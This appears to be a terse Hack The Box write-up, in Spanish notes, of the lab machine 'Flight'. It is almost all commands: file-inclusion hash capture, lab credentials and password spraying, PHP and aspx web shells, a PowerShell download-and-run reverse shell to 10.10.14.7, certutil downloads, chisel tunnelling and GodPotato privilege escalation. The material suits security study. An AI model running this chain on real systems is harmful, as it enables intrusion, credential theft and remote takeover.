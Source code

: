 ```yaml
---
title: Flight
layout: default
---
```

```bash
ffuf -u http://flight.htb -H "Host: FUZZ.flight.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -ac
```

# LFI - Local File inclusion & RFI - Remote File Inclusion

```
GET http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```

```
GET http://school.flight.htb/index.php?view=C:/xampp/apache/logs/access.log
```

NO ES LOG POISONING

```
http://school.flight.htb/index.php?view=C:/xampp/apache/logs/access.log&cmd=ping+10.10.14.4
```

Tratamos de cargar una php desde un servidor html pero no lo interpreta.

Podemos likear el hash cargando desde smbserver:

```
http://school.flight.htb/index.php?view=//10.10.14.4/share
```

```bash
impacket-smbserver share ./share -smb2support
```

```
svc_apache \ S@Ss!K@*t13
```

```bash
bloodhound-python  -u 'svc_apache' -p 'S@Ss!K@*t13' -d flight.htb -ns 10.10.11.187 -dc G0.flight.htb -c all --zip
```

```bash
smbmap -H 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13'
```

```
recurse
prompt
mget *
```

```bash
smbclient //10.10.11.187/Users -U svc_apache%'S@Ss!K@*t13'
```

```bash
netexec smb 10.10.11.187 -u validUsers.txt  -p 'S@Ss!K@*t13'  -d flight.htb --continue-on-success --no-bruteforce
```

```
S.Moon \ S@Ss!K@*t13
```

```bash
smbmap -H 10.10.11.187 -u 'S.Moon' -p 'S@Ss!K@*t13'
```

```bash
exec smb 10.10.11.187 -u "S.Moon"  -p 'S@Ss!K@*t13'  -d flight.htb --shares
```

```bash
smbclient //flight.htb/shared -U S.Moon 'S@Ss!K@*t13'
```

```
prompt
mput *
```

```bash
sudo responder -I tun0
```

```
c.bum \ Tikkycoll_431012284
```

```bash
netexec smb 10.10.11.187 -u "C.Bum"  -p 'Tikkycoll_431012284'  -d flight.htb --shares
```

```bash
smbclient //flight.htb/Web -U "C.Bum" 'Tikkycoll_431012284'

mput shell.php
```

```
http://school.flight.htb/shell.php?cmd=whoami
```

```bash
python3 -m http.server 80
```

```bash
rlwrap nc -lvnp 4444
```

```
http://school.flight.htb/shell.php?cmd=powershell%20-c%20%22IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)%22
```

```bash
certutil -urlcache -f http://10.10.14.7/runas.exe runas.exe 
```

```
rlwrap nc -lvnp 5555
```

```bash
./runas.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.7:5555
```

```
chisel server --port 7777 --reverse
```

```bash
.\chisel client 10.10.14.7:7777 R:8000:127.0.0.1:8000
```

Dejamos `webshell.aspx` en `C:\inetpub\development`

```bash
powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')"
```

```bash
rlwrap nc -lvnp 6666
```
# **SeImpersonatePrivilege**

El usuario `iis apppool\defaultapppool` suele correr bajo `NT Authority System`.

```bash
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

```bash
.\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```


